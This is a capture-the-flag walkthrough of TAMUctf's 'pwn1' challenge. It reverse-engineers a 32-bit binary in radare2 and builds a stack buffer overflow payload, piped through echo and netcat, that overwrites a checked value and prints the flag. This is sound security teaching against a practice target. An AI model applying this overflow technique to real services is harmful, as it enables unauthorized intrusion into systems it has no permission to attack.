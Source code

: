 PWN1
```
nc pwn.tamuctf.com 4321

Difficulty: easy
```

[binary|changem]

Task has no description, everything looks obvious:

```
$ nc pwn.tamuctf.com 4321

Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
aaa
I don't know that! Auuuuuuuugh!
```

Okay, let's check what we've got in pwn1 file:

```
$ file pwn1 

pwn1: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=d126d8e3812dd7aa1accb16feac888c99841f504, not stripped
```

It is 32-bit elf: we can run it only on 32-bit operation systems or https://askubuntu.com/questions/454253/how-to-run-32-bit-app-in-ubuntu-64-bit

Let's check what strings it has:
```
$ strings pwn1

...
UWVS
[^_]
Right. Off you go.
flag.txt
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
I don't know that! Auuuuuuuugh!
What... is your quest?
To seek the Holy Grail.
What... is my secret?
;*2$"
GCC: (Ubuntu 7.3.0-27ubuntu1~18.04) 7.3.0
...
```

Okay. We could try to answer some questions, let's try:

```
$ nc pwn.tamuctf.com 4321

Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
What... is your quest?
To seek the Holy Grail.
What... is my secret?
;*2$"
I don't know that! Auuuuuuuugh!
```

I've tried some strings as answer to question `What... is my secret?` but vainly.

Time to uncover radare2.


```
$ r2 -b 32 -d pwn1
Process with PID 9563 started...
= attach 9563 9563
bin.baddr 0x565b6000
Using 0x565b6000
asm.bits 32
glibc.fc_offset = 0x00148
 -- You can mark an offset in visual mode with the cursor and the ',' key. Later press '.' to go back
[0xf7efea20]> s main
[0x565b6779]> V
```

`s main` seeks to main function

`V` brings to visual mode

Then press two times `p`:
`p/P      rotate print modes (hex, disasm, debug, words, buf)`

you will see something like:

![s1](s1.png)

Set breakpoint at the first command after the first fgets just to play around.
To do this enter into command mode by pressing `:`, then type `db 0x5664a7f6`.
To check whether breakpoint has set type just `db`.
To read a short help about each command in r2 type question mark after the command, e.g. `db?`

Then type `dc` in command mode to continue execution until breakpoint.
We can see the first question and we can try to answer to it with already known string `Sir Lancelot of Camelot`:
![s2](s2.png)

Okay. To exit command mode just press Enter.
Let's find next fgets by simple scrolling and set breakpoint just on the next command after it.
Then execute binary until breakpoint. Put the answer to second question which was found before `To seek the Holy Grail.`:
![s3](s3.png)

Do the same: set breakpoint after third !gets, execute the binary.
Since we don't know the answer to third question just put 50 `a` chars:
![s4](s4.png)

By pressing Enter return to visual mode:
![s5](s5.png)

We can see that:

(1) next command is a simple comparison, value from stack by address `ebp-0x10` compares to value `0xdea110c8`

(2) next command is `jne` - jump if not equal, we would like to not jump since the next is a call `call sym.print_flag` which looks promising

(3) here is a current value of ebp registry


Let's check what we have by address  ebp-0x10.
Enter command mode - press `:` - and print hex dump of 16 bytes (dword) by address - type `x 16 @ebp-0x10`:
![s6](s6.png)

oh! we can see `aaa` here. Seems we have [stack overflow|https://en.wikipedia.org/wiki/Stack_buffer_overflow]

I'm not going to explain how it works since it is full entire article. Read wiki or google `stack buffer overflow`.

Let's calculate how many `a` + `0xdea110c8` we should put to override @ebp-0x10.

Press `c` being in visual mode, so you'll jump to your stack memory.
Using arrow keys go to the first `a` in your stack. It is a starting address.
We need to get the difference between this address and @ebp-0x10:


( value of ebp ) - ( 0x10 ) - ( address of dword of first `a` in the stack ) + ( offseet of first `a` )

In my case it is:
![s7](s7.png)


`0xffcafd28` - `0x10` - `0xffcafce0` + 0xD 

The result is 43:
```
$ perl -E 'say ((0xfff60d58-0x10)-(0xfff60d10+0xd))'

43
```

So we need 43 `a` and 4 bytes `0xdea110c8`.

To put those 4 bytes I would use echo, e.g.:
```
$ echo -e '\x61'
a
```

So, exploit should looks like:

```
echo -e 'Sir Lancelot of Camelot\nTo seek the Holy Grail.\naaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xde\xa1\x10\xc8' |nc pwn.tamuctf.com 4321
```

But it doesn't work:
![s8](s8.png)

Hm, let's run it under radare2 again, set up breakpoint just after gets, and input answer for the third questions as `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabcde`.
I choosed bcde instead of \xde\xa1\x10\xc8 because I don't know how to input such data by hand.

Then let's check what we have to compare:
![s9](s9.png)

`cmp` instruction has 3 bytes size, so we do +3 and print 4 bytes of code
the second print takes 4 bytes of @ebx-0x10

we have different byte order!

Let's modify our payload so last 4 bytes will be in litle endian order:

```
$ echo -e 'Sir Lancelot of Camelot\nTo seek the Holy Grail.\naaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xc8\x10\xa1\xde' |nc pwn.tamuctf.com 4321
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
gigem{34sy_CC428ECD75A0D392}

```
